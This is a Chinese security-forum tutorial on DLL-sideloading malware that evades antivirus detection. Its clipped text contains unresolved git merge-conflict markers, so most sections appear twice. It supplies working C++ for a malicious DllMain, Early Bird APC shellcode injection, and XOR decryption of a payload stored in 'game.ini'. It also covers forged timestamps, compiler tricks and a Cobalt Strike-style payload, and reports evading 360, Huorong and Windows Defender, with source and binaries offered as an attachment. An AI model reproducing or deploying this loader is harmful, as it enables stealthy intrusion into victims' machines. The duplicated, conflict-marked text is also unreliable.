<<<<<<< HEAD
---
title: 利用白加黑静态逃逸杀软 - 先知社区
url: https://xz.aliyun.com/t/14075
clipped_at: 2024-03-20 09:42:27
category: default
tags: 
 - xz.aliyun.com
---
=======
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f


# 利用白加黑静态逃逸杀软 - 先知社区

<<<<<<< HEAD
=======
利用白加黑静态逃逸杀软

- - -

>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
本文记录的我学习实现白 + 黑免杀的过程，以及遇到了 shellcode 编写 32 位无法注入 64 的问题，最后组合了各种静态规避手段，成功静态层面逃逸大部分的杀软。成品和源码可以在最下方的先知的附件中可以拿到，仅供学习参考。

### 基本背景

在与杀毒软件的对抗中，即使恶意代码再隐蔽，一旦被发现，它的生命便结束了。杀毒软件厂商通过算法如 MD5 等获取样本的唯一值来构建云端特征库，另一方面很多合法的软件也需要要用到一些敏感的系统动作，于是就出现了软件签名技术。

软件开发厂商会对自己发布的软件进行签名，这样即使出现敏感动作（截图、图形远程控制）杀软也会放行动作，大大提高了正常用户的体验。

但是软件开发厂商随着开发时间的推移，即使是安全做的最好的公司也出现管理方面的混乱，很多软件由于开发的历史包袱就出现了一堆 dll 劫持漏洞，未校验签名的情况，甚至是泄露的句柄和 token 等等。在这种背景下，黑客就会劫持持有白签名的 exe 来使得恶意代码更加隐蔽，这就是所谓的白加黑。

### DLL 基础

编写一个恶意的 dll 正常程序没有太大区别，只不过函数的入口约定成了如下形式：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACHED:
            HelloWorld(); // A process is loading the DLL.
        break;
        case DLL_THREAD_ATTACHED: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}

void HelloWorld() { MessageBox( NULL, TEXT("Hello World"), TEXT("In a DLL"), MB_OK); }
```

当 dll 被加载的时候就会进入 DLL\_PROCESS\_ATTACHED 中执行其中 HelloWorld () 函数，一般开发者会导出自己写的函数给主程序使用：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
extern __declspec(dllexport) void HelloWorld();
```

主程序需要获取这个函数的地址来调用：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
HINSTANCE hinstDLL = ::LoadLibrary(L"Dll_test.dll");
if (hinstDLL != NULL) {
    FunctionType HelloWorld = (FunctionType)GetProcAddress(hinstDLL, "");
    if (HelloWorld != NULL) {
        HelloWorld();
    }
    else {
        std::cerr << "Failed to find s function in the DLL." << ::GetLastError() << std::endl;
    }
}
else {
<<<<<<< HEAD
    // 处理错误：加载DLL失败
=======
    // 处理错误：加载 DLL 失败
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    std::cerr << "Failed to load the DLL." << ::GetLastError() << std::endl;
}
```

可以看到正常的的开发者一般都会直接 LoadLibrary，这就很容易让我们去劫持 dll。

### 寻找具备未被检验签名的 DLL

<<<<<<< HEAD
其实没什么好说的，就是在网上不停的下载安装包，查找安装的软件，然后不断复制出 exe，双击看看会不会弹出 “缺少 xxx.dll” 的警告，一天速度快能挖一堆这玩意，绝大部分软件厂商的 exe 压根不会校验自己的 dll 有没有篡改，just load。经过一个小时多，我找到了一个游戏加速器的比较好用

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131342-2098fd86-df66-1.png)

只缺失一个 dll，有些 exe 缺失一堆的在红队操作中来回上传就显得有点麻烦了:

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131353-2770544c-df66-1.png)
=======
其实没什么好说的，就是在网上不停的下载安装包，查找安装的软件，然后不断复制出 exe，双击看看会不会弹出“缺少 xxx.dll”的警告，一天速度快能挖一堆这玩意，绝大部分软件厂商的 exe 压根不会校验自己的 dll 有没有篡改，just load。经过一个小时多，我找到了一个游戏加速器的比较好用

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131342-2098fd86-df66-1.png)

只缺失一个 dll，有些 exe 缺失一堆的在红队操作中来回上传就显得有点麻烦了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131353-2770544c-df66-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

### 编写 dll VS project:

当我们找好了可以劫持的 dll 后就可以编写恶意的 dll 了，不过如果 dll 导出函数太多的话，一个个去复制粘贴太累了，不现实，这里我们要使用工具 [AheadLibEx.exe](https://github.com/i1tao/AheadLibEx)，这将帮助我们轻松生成一个 VS project:

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131407-2fd8faa8-df66-1.png)

打开生成的 VS project 我们发现它帮我们生成的很多函数，我们不需要可以直接删掉，这并不影响我们后续恶意代码运行：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131416-34e26d90-df66-1.png)

可以看到里面的 load 和 init 函数我们其实都不需要，直接删掉里面代码，保留最基本都入口就可以了

```plain
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131407-2fd8faa8-df66-1.png)

打开生成的 VS project 我们发现它帮我们生成的很多函数，我们不需要可以直接删掉，这并不影响我们后续恶意代码运行：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131416-34e26d90-df66-1.png)

可以看到里面的 load 和 init 函数我们其实都不需要，直接删掉里面代码，保留最基本都入口就可以了

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        DisableThreadLibraryCalls(hModule);
        //这里写我们的恶意代码
        。。。。。。。。
    }
    else if (dwReason == DLL_PROCESS_DETACH)
    {
        Free();
    }
    return TRUE;
}
```

注意事项：

1.  编译的时候要注意程序位数，我们的具备白签名的文件是 32 位，dll 也得是 32 位
2.  有些不同版本的编译器似乎无法正确解析\_\_asm jmp 汇编代码，可以直接批量 // 注释掉不影响运行
3.  cpp17 和 cpp20 标准编译可能有无法预测的行为会导致编译失败，我暂时还没弄清楚原因，本文代码建议用 cpp17 标准

### 编写注入方法

这里我将使用 Early Bird APC 注入 (早鸟 APC 注入)，Early Bird 是一种简单而强大的技术，Early Bird 本质上是一种 APC 注入与线程劫持的变体，由于线程初始化时会调用 ntdll 未导出函数 NtTestAlert，该函数会清空并处理 APC 队列，所以注入的代码通常在进程的主线程的入口点之前运行并接管进程控制权，从而避免了反恶意软件产品的钩子的检测，[同时获得一个合法进程的环境信息](https://idiotc4t.com/code-and-dll-process-injection/early-bird)

第一步，利用 CreateProcessA 拉起一个挂起的进程，这里我使用 DEBUG\_PROCESS 标志位来阻塞它使其具备 APC 注入的条件

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
std::tuple<DWORD, HANDLE, HANDLE> CreateProcessAndStop(const std::string& lpProcessName) {
    std::string lpPath =  lpProcessName;
    std::cout << "\n\t[i] Running: \"" << lpPath << "\" ... ";
    STARTUPINFOA Si = { sizeof(STARTUPINFOA) };
    PROCESS_INFORMATION Pi = { 0 };

    if (!CreateProcessA(NULL, (LPSTR)(lpPath.data()), NULL, NULL, FALSE, DEBUG_PROCESS, NULL, NULL, &Si, &Pi)) {
        std::cerr << "[!] CreateProcessA Failed with Error : " << GetLastError() << std::endl;
        return { 0, INVALID_HANDLE_VALUE, INVALID_HANDLE_VALUE };
    }
    std::cout << "[+] DONE" << std::endl;
    return { Pi.dwProcessId, Pi.hProcess, Pi.hThread };
}
```

第二步，利用正常的注入技术注入到拉起的新进程中，非常经典的三个函数调用：

-   VirtualAllocEx 分配一个 rw 内存
-   WriteProcessMemory 写入 shellcode
-   VirtualProtectEx 修改内存权限为 rx

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
std::tuple<BOOL, PVOID> InjectShellcode(HANDLE hProcess, PBYTE pShellcode, SIZE_T sSizeOfShellcode) {
    SIZE_T sNumberOfBytesWritten = NULL;
    PVOID pAddress = nullptr;
    pAddress = VirtualAllocEx(hProcess, NULL, sSizeOfShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pAddress == NULL) {
        std::cerr << "\n\t[!] VirtualAllocEx Failed With Error : " << GetLastError() << std::endl;
        return std::make_tuple(FALSE, nullptr);
    }
    std::cout << "\n\t[i] Allocated Memory At : 0x" << pAddress << std::endl;
    std::cout << "\t[#] Press <Enter> To Write Payload ... ";
    if (!WriteProcessMemory(hProcess, pAddress, pShellcode, sSizeOfShellcode, &sNumberOfBytesWritten) || sNumberOfBytesWritten != sSizeOfShellcode) {
        std::cerr << "\n\t[!] WriteProcessMemory Failed With Error : " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, pAddress, 0, MEM_RELEASE);
        return std::make_tuple(FALSE, nullptr);
    }
    std::cout << "\t[i] Successfully Written " << sNumberOfBytesWritten << " Bytes" << std::endl;

    DWORD dwOldProtection = NULL;
    if (!VirtualProtectEx(hProcess, pAddress, sSizeOfShellcode, PAGE_EXECUTE_READ, &dwOldProtection)) {
        std::cerr << "\n\t[!] VirtualProtectEx Failed With Error : " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, pAddress, 0, MEM_RELEASE);
        return std::make_tuple(FALSE, nullptr);
    }

    return std::make_tuple(TRUE, pAddress);
}
```

第三步，需要调用插入 APC 队列，当回调发生的时候指向我们的 shellcode 地址

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
QueueUserAPC((PAPCFUNC)pAddress, hThread, NULL);
```

第四步，使用 DebugActiveProcessStop 触发函数回调成功上线：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
DebugActiveProcessStop(PId);
```

我画了个简单的图片描述了上述 APC 注入的流程：

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131447-47a05b90-df66-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131447-47a05b90-df66-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

### 编写加密和延迟方法

虽然有更高级的加密方法，但对付杀毒的静态查杀只需要使用 XOR 即可打乱所有特征，加密的 key 可以使用常见出现的字符规避签名，注意 key 不能太短，不然有一部分杀毒依然能检测到特征：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
void XorByInputKey(std::vector<unsigned char>& shellcode, const std::string& key) {
    size_t shellcodeSize = shellcode.size();
    size_t keySize = key.size();

    for (size_t i = 0, j = 0; i < shellcodeSize; i++, j++) {
        if (j >= keySize) {
            j = 0;
        }
        shellcode[i] = shellcode[i] ^ key[j];
    }
}
```

同时为了对抗一些比较 low 的内存扫描和沙箱我们使用 WaitForSingleObject 等待杀毒分析完再运行起来：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
WaitForSingleObject(GetCurrentThread(), 10000);
```

### 获取加密的 shellcode

从本地文件 game.ini 中读取加密的 shellcode

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
std::ifstream file("game.ini", std::ios::binary);
std::vector<unsigned char> shellcode;

if (file) {
    file.seekg(0, std::ios::end);
    size_t size = file.tellg();
    shellcode.resize(size);

    file.seekg(0, std::ios::beg);
    file.read(reinterpret_cast<char*>(shellcode.data()), size);
    file.close();
}
```

到这里 DLLmain 的全部逻辑就写完了，可以愉快的测试上线了，然而我 x32dbg 调了一天发现 shellcode 明明已经就位，每个环节也没有任何 windows errors code 返回，还是不上线，这是怎么回事？

### 存在 32 位进程无法注入 64 进程的问题

经过一天排查资料我找到了原因：

通常来说，32 位的程序只能注入 32 位的程序，64 也只能注入 64 位的程序，运行在 Wow64 下的 32 位程序默认调用的是 x32 的 API，kernel32 导出的 API 地址在 32 位和 64 位下的地址是不同的，也没办法直接调用 x64 下的 API，也就导致了 APC 创建线程肯定会直接崩溃。

简单的解决办法是直接拉起一个 32 位的进程，每次根据情况来调整这个参数：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
auto [PId, hProcess, hThread] = CreateProcessAndStop("C:\\Program Files (x86)\\Internet Explorer\\iexplore.exe");
```

不过渗透环境比较复杂，我们还是得想办法切换线程 bit 模式来适应这个问题，不过由于实现过于复杂，涉及到大量的汇编代码，遗憾的是我现在水平确实不够，不过我发现 msf 确实有解决方案能从 32 位进程注入 64 进程，师傅有兴趣可以去看[源码](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/migrate/apc.asm)研究一下

### 进一步静态规避

个别杀毒喜欢给最近创建的文件标记为可疑，这里我们需要修改时间戳，可以使用[工具](https://github.com/sorabug/ChangeTimestamp)修改一下为最近的时间：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
ChangeTimestamp.exe   evil.dll  2022-12-12  11:11:50
```

这样看起来系统编译的时间就比较正常了：

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131540-66d7379a-df66-1.png)

卡巴斯基的启发式查杀对这类的较小的 dll 容易检测出 dll 劫持，我这里使用添加静态资源来规避：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131554-6fb6702e-df66-1.png)

选择一个合适的 ico，大家电脑上一堆，找个大一点的就可以了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131608-77c3c140-df66-1.png)

默认的 VS 设置比较坑爹，在 release 模式下依然会带上调试信息，清单信息，里面的信息包含编译的路径和用户名，这导致攻防的时候有部分搞免杀的师傅被溯源出来 id，就连不少顶级 APT 组织都翻车过，微软你坏事做尽（笑），我们得去资源方案关掉这个坑爹的选项：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131622-8029f3ae-df66-1.png)

最后注释掉所有我们 debug 的打印信息，上传 VT 查看[静态效果](https://www.virustotal.com/gui/file-analysis/OTFkYTRkNDY4YmViZGNkZjgxM2M1MTgyZjcwZWIxNjc6MTcxMDA0NjIwNA==)，印象中 32 位的免杀效果一般都比较差，这个结果总体来说还可以了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131637-893eec10-df66-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131540-66d7379a-df66-1.png)

卡巴斯基的启发式查杀对这类的较小的 dll 容易检测出 dll 劫持，我这里使用添加静态资源来规避：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131554-6fb6702e-df66-1.png)

选择一个合适的 ico，大家电脑上一堆，找个大一点的就可以了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131608-77c3c140-df66-1.png)

默认的 VS 设置比较坑爹，在 release 模式下依然会带上调试信息，清单信息，里面的信息包含编译的路径和用户名，这导致攻防的时候有部分搞免杀的师傅被溯源出来 id，就连不少顶级 APT 组织都翻车过，微软你坏事做尽（笑），我们得去资源方案关掉这个坑爹的选项：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131622-8029f3ae-df66-1.png)

最后注释掉所有我们 debug 的打印信息，上传 VT 查看[静态效果](https://www.virustotal.com/gui/file-analysis/OTFkYTRkNDY4YmViZGNkZjgxM2M1MTgyZjcwZWIxNjc6MTcxMDA0NjIwNA==)，印象中 32 位的免杀效果一般都比较差，这个结果总体来说还可以了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131637-893eec10-df66-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

更加底层的静态规避：

刚刚的效果看起来已经还行啦，3/71 的效果，特征其实在 MT 里面了，不过你还希望更好可以参考[这篇文章](https://mp.weixin.qq.com/s/_ZnjOQ-vTHTBa7beYoGlLQ)利用 gcc 编译器取消所有特征，这里直接给出文章里面的编译方法：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
g++ main.cpp -o main.exe -mconsole -fno-stack-protector -fvisibility=hidden -Wl,--dy
```

你可能和我一样懒得去 linux 编译安装，可以参考这个[文章](https://mp.weixin.qq.com/s/5iunnk0X0t7oHXJPAM5Trw)去[官网安装](https://www.intel.cn/content/www/cn/zh/developer/tools/oneapi/base-toolkit.html#gs.5myr77) Intel C++ 编译器到我们的 VS 项目里面

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311132327-7d6cb70e-df67-1.png)

不得不点名表扬一下 intel 的这个开发工具，真是一条龙服务，安装完成之后默认的平台编译工具直接帮我们配置好了，直接切换其他编译器正常编译就行了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311132220-55b7d054-df67-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311132327-7d6cb70e-df67-1.png)

不得不点名表扬一下 intel 的这个开发工具，真是一条龙服务，安装完成之后默认的平台编译工具直接帮我们配置好了，直接切换其他编译器正常编译就行了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311132220-55b7d054-df67-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

你可能会好奇为什么 LLVM 和 lnetel 编译的规避效果更好，实际上是因为杀毒特征采用的是基于模糊哈希算法的恶意代码检测，大部分黑客早期都一直在用默认的编译器去编写恶意代码导致就连正常的编译的都会报毒了，像这种比较冷门的编译器用的人少，产生的特征就更少效果自然好不少。

说到这里就不得不提一下基于 LLVM 的混淆了，大部分杀毒的特征码容易出现在循环和独有的字符串上，于是有[大佬](https://github.com/DreamSoule/ollvm17)就在底层上 patch 了 llvm 底层编译的状态，使得简单的控制流都变得非常复杂：

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131657-9516d34a-df66-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131657-9516d34a-df66-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

图来自 [github](https://github.com/DreamSoule/ollvm17), 我这里就不再尝试了，有兴趣的师傅可以折腾一下，这方面就算是非常底层的混淆，已经远远超出我们当下的讨论的范围。

### 上线测试效果

现在开始测试上线，为了避免一下就 GG 我们生成的 payload 请选择 stagless，同时要使用 [Malleable C2](https://github.com/threatexpress/malleable-c2) 中的修改后的流量，这样将进一步降低流量特征，同时启用 system call 中的 indirect (间接系统调用) 避免一些杀毒的 hook，output 生成 raw 之后用加密器加密一下就好了。

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311133050-85cc5a8e-df68-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311133050-85cc5a8e-df68-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

360 不喜欢我们用微软默认的编译器，这杀毒老是喜欢乱杀 - 即便你就编译一个 helloword，我实际测试用到就是 clang 编译器的编译成品；360 和火绒是没有内存查杀的，流量检测也很简陋，绕过还是比较简单：

360 查杀效果：

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311132241-62083c7c-df67-1.png)

动态效果运行一段时间也很正常：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311133030-79873dac-df68-1.png)

火绒查杀效果：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311132202-4af4b72c-df67-1.png)

运行一段时间也没问题：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131843-d432ee24-df66-1.png)

挑战一下防御全开的 windows defender 这种有内存查杀和流量检测都还可以的，上线没问题，启动扫描后依然一切正常，就不放上线的图了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131829-cc1a6c08-df66-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311132241-62083c7c-df67-1.png)

动态效果运行一段时间也很正常：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311133030-79873dac-df68-1.png)

火绒查杀效果：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311132202-4af4b72c-df67-1.png)

运行一段时间也没问题：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131843-d432ee24-df66-1.png)

挑战一下防御全开的 windows defender 这种有内存查杀和流量检测都还可以的，上线没问题，启动扫描后依然一切正常，就不放上线的图了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311131829-cc1a6c08-df66-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

本来前面的测试想放 GIF 的，但是全录起来几分钟就显得没必要了。

### 总结

<<<<<<< HEAD
```plain
本篇文章主要讲解的白加黑实现的方法和工具，通过组合其他类型注入和加密还能玩出更复杂的方案，目前给出依然存在加解密方法特征明显、字符硬编码、没能实现32位注入64位的问题等等问题，不过对付目前绝大多数静态的查杀已经相当不错了，免杀技术再往下走会变得相当底层，精通还需要相当长一段时间的学习。
=======
```bash
本篇文章主要讲解的白加黑实现的方法和工具，通过组合其他类型注入和加密还能玩出更复杂的方案，目前给出依然存在加解密方法特征明显、字符硬编码、没能实现 32 位注入 64 位的问题等等问题，不过对付目前绝大多数静态的查杀已经相当不错了，免杀技术再往下走会变得相当底层，精通还需要相当长一段时间的学习。
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
```

参考资料和工具：

[https://learn.microsoft.com/en-us/troubleshoot/windows-client/setup-upgrade-and-drivers/dynamic-link-library](https://learn.microsoft.com/en-us/troubleshoot/windows-client/setup-upgrade-and-drivers/dynamic-link-library)  
[https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/migrate/apc.asm](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/migrate/apc.asm)  
[https://github.com/DreamSoule/ollvm17](https://github.com/DreamSoule/ollvm17)  
[https://idiotc4t.com/code-and-dll-process-injection/early-bird](https://idiotc4t.com/code-and-dll-process-injection/early-bird)  
[https://github.com/sorabug/ChangeTimestamp](https://github.com/sorabug/ChangeTimestamp)  
[https://github.com/i1tao/AheadLibEx](https://github.com/i1tao/AheadLibEx)  
[https://mp.weixin.qq.com/s/5iunnk0X0t7oHXJPAM5Trw](https://mp.weixin.qq.com/s/5iunnk0X0t7oHXJPAM5Trw)  
[https://mp.weixin.qq.com/s/\_ZnjOQ-vTHTBa7beYoGlLQ](https://mp.weixin.qq.com/s/_ZnjOQ-vTHTBa7beYoGlLQ)
<<<<<<< HEAD
=======

01.zip (25.0 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240311135252-99757752-df6b-1.zip)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
